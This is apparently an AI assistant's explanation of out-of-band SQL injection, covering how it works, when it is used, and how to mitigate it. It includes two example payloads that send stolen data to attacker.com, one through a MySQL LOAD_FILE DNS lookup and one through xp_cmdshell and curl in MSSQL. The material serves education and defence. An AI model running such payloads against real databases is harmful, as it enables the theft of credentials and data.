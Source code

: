 
**Out-of-Band SQL Injection (OOB SQLi)** is a type of SQL injection attack where the attacker retrieves data from a database by leveraging external network channels (like DNS, HTTP requests, or other protocols) rather than directly through the application's response.

### **Key Concepts of Out-of-Band SQLi:**
1. **How it Works**:
   - The attacker injects malicious SQL queries that force the database to make an outbound request (e.g., DNS lookup, HTTP call) containing stolen data.
   - The attacker monitors an external server they control to capture the exfiltrated data.

2. **When Used**:
   - When traditional **In-Band (Error-Based/Union-Based)** or **Blind SQLi** techniques don't work.
   - When the database has functions that allow external network interactions (`LOAD_FILE()`, `UTL_HTTP`, `xp_cmdshell`, etc.).

3. **Example Techniques**:
   - **DNS Exfiltration**:  
     ```sql
     SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\share\\file.txt'));
     ```
     The database makes a DNS request to `<stolen-data>.attacker.com`, which the attacker logs.

   - **HTTP Requests**:  
     ```sql
     DECLARE @data VARCHAR(1024); 
     SET @data = (SELECT TOP 1 column_name FROM table_name); 
     EXEC('xp_cmdshell ''curl http://attacker.com/?data=' + @data + '''');
     ```

4. **Mitigation**:
   - Disable unnecessary database functions (`xp_cmdshell`, `UTL_HTTP`).
   - Use parameterized queries/prepared statements.
   - Implement strict firewall rules to block outbound requests from databases.
   - Monitor unusual DNS/HTTP traffic from DB servers.

Would you like a deeper dive into exploitation techniques or detection methods?